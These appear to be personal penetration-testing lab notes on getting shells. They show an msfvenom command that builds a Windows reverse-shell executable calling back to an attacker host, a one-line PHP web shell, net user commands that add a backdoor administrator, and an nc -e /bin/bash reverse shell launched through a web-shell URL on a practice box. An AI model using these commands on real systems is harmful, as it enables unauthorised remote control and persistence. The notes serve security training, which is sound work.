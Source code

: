 Fortunately (unfortunately?) msfvenom will automate our reverse shell needs. It can, among other things, generate Windows executables that will set up a reverse shell for you.

```bash
msfvenom -p windows/x64/shell/reverse_tcp \
         -f exe -o shell.exe \
         LHOST=$ATTACKER_IP LPORT=$LISTENER_PORT
```

The payload (`-p`) switch takes a Metasploit payload name. Payloads follow the OS/ARCHITECTURE/PAYLOAD (though ARCHITECTURE is not included for 32-bit Windows payloads). Staged payloads replace the first `_` with a `/`, so windows/x64/shell/reverse_tcp is a staged while windows/x64/shell_revers_tcp is stageless.

List all available payloads using `msfvenom --list payloads`.

Interestingly, Metasploit/Meterpeter shells are banned from som certification examinations. I guess because they’re just too powerful.

### Metasploit Multi/Handler

Be sure to set the right PAYLOAD when using multi/handler!

### WebShells

Webshells are shells that run within a webserver, typically receiving input via GET variables or a form, and outputting to the page HTML. So, the simplest (PHP) web shell might be:

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

Web shells are, by their nature, non-interactive.

Check out /usr/share/webshells on Kali Linux for some example webshells. In general, the most capable webshells only work on UNIX-like systems. For Windows systems, webshells are normally only a stepping stone to a normal reverse shell.

### Next Steps

Adding a user on Windows (once you have access to SYSTEM or an administrator account):

```bat
net user $USERNAME $PASSWORD /add
net localgroup administrators $USERNAME /add
```

In general, you don’t want to stay in reverse-shell land any longer than you have to.

### Linux Practice Box

> Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

Use /usr/share/webshells/php/simple-backdoor.php, and then go to this URL: `http://10.10.106.112/uploads/simple-backdoor.php?cmd=nc%20<IP>%20<PORT>%20-e%20/bin/bash` (where I’m redacting my `<IP>` and `<PORT>`).
